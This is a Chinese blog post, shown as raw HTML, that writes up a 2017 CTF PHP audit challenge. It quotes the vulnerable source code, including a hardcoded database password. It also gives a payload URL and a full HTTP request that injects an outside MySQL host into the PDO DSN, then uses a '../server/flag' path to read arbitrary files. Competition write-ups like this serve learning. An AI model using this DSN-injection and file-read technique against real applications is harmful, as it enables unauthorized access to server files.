


<!DOCTYPE html>
<html>
<head><meta name="generator" content="Hexo 3.8.0">
  <meta charset="utf-8">
  
  <title>记观安杯一道PHP审计 | sm0nk&#39;s blog</title>

  <!-- keywords -->
  

  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
  <meta name="description" content="2017 ISG“观安杯”管理运维赛一道PHP审计题,任意文件读取 逻辑步骤 通过robots文件泄漏的信息下载源码 通过审计PHP源码，发现dsn参数有问题：可以控制其连接端口，从而控制img.php中读取的文件 根据源码中提供的sql文件创建数据库后使用户头像的值为../server/flag，然后构造payload:http：//202.120.7.2x.7242//app.php?acti">
<meta name="keywords" content="CTF">
<meta property="og:type" content="article">
<meta property="og:title" content="记观安杯一道PHP审计">
<meta property="og:url" content="http://yoursite.com/2017/09/10/记观安杯一道PHP审计/index.html">
<meta property="og:site_name" content="sm0nk&#39;s blog">
<meta property="og:description" content="2017 ISG“观安杯”管理运维赛一道PHP审计题,任意文件读取 逻辑步骤 通过robots文件泄漏的信息下载源码 通过审计PHP源码，发现dsn参数有问题：可以控制其连接端口，从而控制img.php中读取的文件 根据源码中提供的sql文件创建数据库后使用户头像的值为../server/flag，然后构造payload:http：//202.120.7.2x.7242//app.php?acti">
<meta property="og:locale" content="default">
<meta property="og:image" content="http://yoursite.com/2017/09/10/记观安杯一道PHP审计/sch.png">
<meta property="og:image" content="http://yoursite.com/2017/09/10/记观安杯一道PHP审计/cankao.png">
<meta property="og:updated_time" content="2017-10-31T06:47:03.108Z">
<meta name="twitter:card" content="summary">
<meta name="twitter:title" content="记观安杯一道PHP审计">
<meta name="twitter:description" content="2017 ISG“观安杯”管理运维赛一道PHP审计题,任意文件读取 逻辑步骤 通过robots文件泄漏的信息下载源码 通过审计PHP源码，发现dsn参数有问题：可以控制其连接端口，从而控制img.php中读取的文件 根据源码中提供的sql文件创建数据库后使用户头像的值为../server/flag，然后构造payload:http：//202.120.7.2x.7242//app.php?acti">
<meta name="twitter:image" content="http://yoursite.com/2017/09/10/记观安杯一道PHP审计/sch.png">
  
    <link rel="alternative" href="/atom.xml" title="sm0nk&#39;s blog" type="application/atom+xml">
  
  
    <link rel="icon" href="http://p6.sinaimg.cn/3607464725/180/71341468803657">
  
  <link rel="stylesheet" href="/css/style.css">
  
  

  <script src="//cdn.bootcss.com/require.js/2.3.2/require.min.js"></script>
  <script src="//cdn.bootcss.com/jquery/3.1.1/jquery.min.js"></script>

  
</head></html>
<body>
  <div id="container">
    <div id="particles-js"></div>
    <div class="left-col">
    <div class="overlay"></div>
<div class="intrude-less">
	<header id="header" class="inner">
		<a href="/" class="profilepic">
			
			
			
		</a>

		<hgroup>
		  <h1 class="header-author"><a href="/">sm0nk</a></h1>
		</hgroup>

		

		
			<div class="switch-btn">
				<div class="icon">
					<div class="icon-ctn">
						<div class="icon-wrap icon-house" data-idx="0">
							<div class="birdhouse"></div>
							<div class="birdhouse_holes"></div>
						</div>
						<div class="icon-wrap icon-ribbon hide" data-idx="1">
							<div class="ribbon"></div>
						</div>
						
						
					</div>
					
				</div>
				<div class="tips-box hide">
					<div class="tips-arrow"></div>
					<ul class="tips-inner">
						<li>菜单</li>
						<li>标签</li>
						
						
					</ul>
				</div>
			</div>
		

		<div class="switch-area">
			<div class="switch-wrap">
				<section class="switch-part switch-part1">
					<nav class="header-menu">
						<ul>
						
							<li><a href="/categories/攻防渗透/">攻防渗透</a></li>
				        
							<li><a href="/categories/编程之道/">编程之道</a></li>
				        
							<li><a href="/categories/归纳总结/">归纳总结</a></li>
				        
							<li><a href="/categories/认知独省/">认知独省</a></li>
				        
						</ul>
					</nav>
					<nav class="header-nav">
						<div class="social">
							
								<a class="mail" target="_blank" href="mailto:sm0nk@qq.com" title="mail">mail</a>
					        
								<a class="weibo" target="_blank" href="http://weibo.com/shellr00t" title="weibo">weibo</a>
					        
						</div>
					</nav>
				</section>
				
				
				<section class="switch-part switch-part2">
					<div class="widget tagcloud" id="js-tagcloud">
						<a href="/tags/CTF/" style="font-size: 10px;">CTF</a> <a href="/tags/SQL注入/" style="font-size: 10px;">SQL注入</a> <a href="/tags/blog/" style="font-size: 10px;">blog</a> <a href="/tags/hexo/" style="font-size: 10px;">hexo</a> <a href="/tags/pentest/" style="font-size: 10px;">pentest</a> <a href="/tags/python/" style="font-size: 20px;">python</a> <a href="/tags/seleinum/" style="font-size: 10px;">seleinum</a> <a href="/tags/struts2/" style="font-size: 10px;">struts2</a> <a href="/tags/业务逻辑/" style="font-size: 10px;">业务逻辑</a> <a href="/tags/代理转发/" style="font-size: 10px;">代理转发</a> <a href="/tags/工控安全/" style="font-size: 10px;">工控安全</a> <a href="/tags/应急/" style="font-size: 20px;">应急</a> <a href="/tags/接口安全/" style="font-size: 10px;">接口安全</a> <a href="/tags/渗透/" style="font-size: 10px;">渗透</a> <a href="/tags/爆破/" style="font-size: 10px;">爆破</a> <a href="/tags/语言安全/" style="font-size: 10px;">语言安全</a> <a href="/tags/远程下载/" style="font-size: 10px;">远程下载</a>
					</div>
				</section>
				
				
				

				
			</div>
		</div>
	</header>				
</div>
    </div>
    <div class="mid-col">
      <nav id="mobile-nav">
  	<div class="overlay">
  		<div class="slider-trigger"></div>
  		<h1 class="header-author js-mobile-header hide">sm0nk</h1>
  	</div>
	<div class="intrude-less">
		<header id="header" class="inner">
			<div class="profilepic">
				
			</div>
			<hgroup>
			  <h1 class="header-author">sm0nk</h1>
			</hgroup>
			
			<nav class="header-menu">
				<ul>
				
					<li><a href="/categories/攻防渗透/">攻防渗透</a></li>
		        
					<li><a href="/categories/编程之道/">编程之道</a></li>
		        
					<li><a href="/categories/归纳总结/">归纳总结</a></li>
		        
					<li><a href="/categories/认知独省/">认知独省</a></li>
		        
		        <div class="clearfix"></div>
				</ul>
			</nav>
			<nav class="header-nav">
				<div class="social">
					
						<a class="mail" target="_blank" href="mailto:sm0nk@qq.com" title="mail">mail</a>
			        
						<a class="weibo" target="_blank" href="http://weibo.com/shellr00t" title="weibo">weibo</a>
			        
				</div>
			</nav>
		</header>				
	</div>
</nav>
      <div class="body-wrap"><article id="post-记观安杯一道PHP审计" class="article article-type-post" itemscope itemprop="blogPost">
  
    <div class="article-meta">
      <a href="/2017/09/10/记观安杯一道PHP审计/" class="article-date">
  	<time datetime="2017-09-10T05:56:07.000Z" itemprop="datePublished">2017-09-10</time>
</a>
    </div>
  
  <div class="article-inner">
    
      <input type="hidden" class="isFancy">
    
    
      <header class="article-header">
        
  
    <h1 class="article-title" itemprop="name">
      记观安杯一道PHP审计
      
    </h1>
  

      </header>
      
      <div class="article-info article-info-post">
        
	<div class="article-tag tagcloud">
		<ul class="article-tag-list"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/CTF/">CTF</a></li></ul>
	</div>

        
	<div class="article-category tagcloud">
	<a class="article-category-link" href="/categories/编程之道/">编程之道</a>
	</div>


        
        <div class="clearfix"></div>
      </div>
      
    
    <div class="article-entry" itemprop="articleBody">
      
        <p>2017 ISG“观安杯”管理运维赛一道PHP审计题,任意文件读取</p>
<h1><span id="逻辑步骤">逻辑步骤</span></h1><ol>
<li>通过robots文件泄漏的信息下载源码</li>
<li>通过审计PHP源码，发现dsn参数有问题：可以控制其连接端口，从而控制img.php中读取的文件</li>
<li>根据源码中提供的sql文件创建数据库后使用户头像的值为../server/flag，然后构造payload:http：//202.120.7.2x.7242//app.php?action=img&amp;dsn=wmwcms;host=116.196.91.18x</li>
<li>最后远程链接数据库拿到flag</li>
</ol>
<h1><span id="审计过程">审计过程</span></h1><a id="more"></a>
<p>源码的目录结构如下：<br><br>前台，主文件app.php，由action可知，可跳转的是login  logout img<br><figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"><span class="keyword">try</span> &#123;</span><br><span class="line">    session_start();</span><br><span class="line">    define(<span class="string">'APP_PATH'</span>, dirname(dirname(<span class="keyword">__FILE__</span>)) . <span class="string">'/server/'</span>);</span><br><span class="line">    error_reporting(<span class="number">0</span>);</span><br><span class="line">    <span class="keyword">include_once</span> APP_PATH . <span class="string">'sql.php'</span>;</span><br><span class="line">    <span class="keyword">include_once</span> APP_PATH . <span class="string">'func.php'</span>;</span><br><span class="line">    <span class="keyword">if</span> (!<span class="keyword">isset</span>($_GET[<span class="string">"action"</span>])) &#123;</span><br><span class="line">        errormsg(<span class="string">"action is required."</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    $actions = [<span class="string">"login"</span>, <span class="string">"logout"</span>, <span class="string">"img"</span>];</span><br><span class="line">    <span class="keyword">if</span> (!in_array($_GET[<span class="string">"action"</span>], $actions)) &#123;</span><br><span class="line">        errormsg(<span class="string">'Hacking attempt'</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">include</span> APP_PATH . $_GET[<span class="string">"action"</span>] . <span class="string">".php"</span>;</span><br><span class="line">&#125; <span class="keyword">catch</span> (<span class="keyword">Exception</span> $e) &#123;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure></p>
<p>跟踪img.php,此源码文件包含了sql.php, 作为数据库连接，同时，根据判断去取portrait的值，并且最后引用了file_get_contents($portrait)作为输出，通过源码看到的flag文件在server目录下，所以要想办法读取server目录下的flag文件； 默认的数据库表里面的portrait的值为img/user.png，更改他为../server/flag<br><figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"><span class="keyword">include_once</span> <span class="string">'sql.php'</span>;</span><br><span class="line"><span class="keyword">if</span>(!<span class="keyword">isset</span>($_SESSION[<span class="string">'uid'</span>])) &#123;</span><br><span class="line">    $portrait = <span class="string">"img/user.png"</span>;</span><br><span class="line">&#125; <span class="keyword">else</span> &#123;</span><br><span class="line">    $uid = intval($_SESSION[<span class="string">'uid'</span>]);</span><br><span class="line">    $sql = <span class="string">"select portrait from user where id = ?"</span>;</span><br><span class="line">    $sth = $dbh-&gt;prepare($sql);</span><br><span class="line">    $sth-&gt;execute([$uid]);</span><br><span class="line">    $user = $sth-&gt;fetchAll();</span><br><span class="line">    <span class="keyword">if</span>(count($user) &gt; <span class="number">0</span>)&#123;</span><br><span class="line">        $user = $user[<span class="number">0</span>];</span><br><span class="line">        $portrait = $user[<span class="string">"portrait"</span>];</span><br><span class="line">    &#125; <span class="keyword">else</span> &#123;</span><br><span class="line">        $portrait = <span class="string">"img/user.png"</span>;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line">header(<span class="string">"Cache-Control: max-age=1, s-maxage=1, no-cache, must-revalidate"</span>);</span><br><span class="line">header(<span class="string">"Content-type: image/png;charset=gb2312"</span>);</span><br><span class="line"><span class="keyword">echo</span> file_get_contents($portrait);</span><br></pre></td></tr></table></figure></p>
<p>回溯sql.php源码文件，关键函数$dsn<br>$dsn = “mysql:dbname={$dsn}”;<br>构造dsn的值，最终可以变化为$dsn=”mysql:dbname=wmwcms;host=x.x.x.x”<br>完美构造PDO<br><figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"><span class="keyword">include_once</span> <span class="string">'func.php'</span>;</span><br><span class="line"><span class="keyword">if</span> (<span class="keyword">isset</span>($_REQUEST[<span class="string">'dsn'</span>]))&#123;</span><br><span class="line">    $dsn = $_REQUEST[<span class="string">'dsn'</span>];</span><br><span class="line">&#125; <span class="keyword">else</span>&#123;</span><br><span class="line">    $dsn = <span class="string">"wmwcms"</span>;</span><br><span class="line">&#125;</span><br><span class="line">$dsn = <span class="string">"mysql:dbname=&#123;$dsn&#125;"</span>;</span><br><span class="line">$username = <span class="string">'wmwcms'</span>;</span><br><span class="line">$password = <span class="string">'%glVYKTkLtQ22'</span>;</span><br><span class="line">$options = <span class="keyword">array</span>(</span><br><span class="line">    PDO::MYSQL_ATTR_INIT_COMMAND =&gt; <span class="string">'SET names utf8'</span>,</span><br><span class="line">    );</span><br><span class="line">$dbh = <span class="keyword">new</span> PDO($dsn, $username, $password, $options);</span><br></pre></td></tr></table></figure></p>
<p>构造对应的payload<br>/app.php?action=img&amp;dsn=wmwcms;host=116.196.91.18x<br>ps:当然自己远程的mysql数据库的用户名密码是sql.php内写死的口令，按照sql.php内帐号进行创建</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br></pre></td><td class="code"><pre><span class="line">GET /app.php?action=img&amp;dsn=wmwcms;host=116.196.91.18x HTTP/1.1</span><br><span class="line">Host: 202.120.7.204:7242</span><br><span class="line">Cache-Control: max-age=0</span><br><span class="line">Upgrade-Insecure-Requests: 1</span><br><span class="line">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36</span><br><span class="line">Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8</span><br><span class="line">Accept-Encoding: gzip, deflate</span><br><span class="line">Accept-Language: zh-CN,zh;q=0.8</span><br><span class="line">Cookie: PHPSESSID=g5k5rsm0c5vlbmlg11afv27g64</span><br><span class="line">If-None-Match: &quot;5a9-5574e78e6a3c0-gzip&quot;</span><br><span class="line">If-Modified-Since: Tue, 22 Aug 2017 02:37:11 GMT</span><br><span class="line">Connection: close</span><br></pre></td></tr></table></figure>
<p>官方参考<br><a href="http://php.net/manual/zh/ref.pdo-mysql.connection.php" target="_blank" rel="noopener">http://php.net/manual/zh/ref.pdo-mysql.connection.php</a><br></p>

      
    </div>
    
  </div>
  
    
<nav id="article-nav">
  
    <a href="/2017/09/12/Struts2RCE漏洞之S2-052/" id="article-nav-newer" class="article-nav-link-wrap">
      <strong class="article-nav-caption">&lt;</strong>
      <div class="article-nav-title">
        
          Struts2RCE漏洞之S2-052
        
      </div>
    </a>
  
  
    <a href="/2017/09/08/渗透测试/" id="article-nav-older" class="article-nav-link-wrap">
      <div class="article-nav-title">渗透测试</div>
      <strong class="article-nav-caption">&gt;</strong>
    </a>
  
</nav>

  
</article>


</div>
      <footer id="footer">
  <div class="outer">
    <div id="footer-info">
      <div class="footer-left">
        &copy; 2021 sm0nk
      </div>
        <div class="footer-right">
          <a href="http://hexo.io/" target="_blank">Hexo</a>  Theme <a href="https://github.com/smackgg/hexo-theme-smackdown" target="_blank">Smackdown</a>
        </div>
    </div>
  </div>
</footer>
    </div>
    
  <link rel="stylesheet" href="/fancybox/jquery.fancybox.css">


<script>
	var yiliaConfig = {
		fancybox: true,
		mathjax: true,
		animate: true,
		isHome: false,
		isPost: true,
		isArchive: false,
		isTag: false,
		isCategory: false,
		open_in_new: true
	}
</script>
<script src="/js/main.js"></script>


<script type="text/x-mathjax-config">
MathJax.Hub.Config({
    tex2jax: {
        inlineMath: [ ['$','$'], ["\\(","\\)"]  ],
        processEscapes: true,
        skipTags: ['script', 'noscript', 'style', 'textarea', 'pre', 'code']
    }
});

MathJax.Hub.Queue(function() {
    var all = MathJax.Hub.getAllJax(), i;
    for(i=0; i < all.length; i += 1) {
        all[i].SourceElement().parentNode.className += ' has-jax';                 
    }       
});
</script>

<script src="//cdn.bootcss.com/mathjax/2.7.0/MathJax.js"></script>


  </div>
</body>
</html>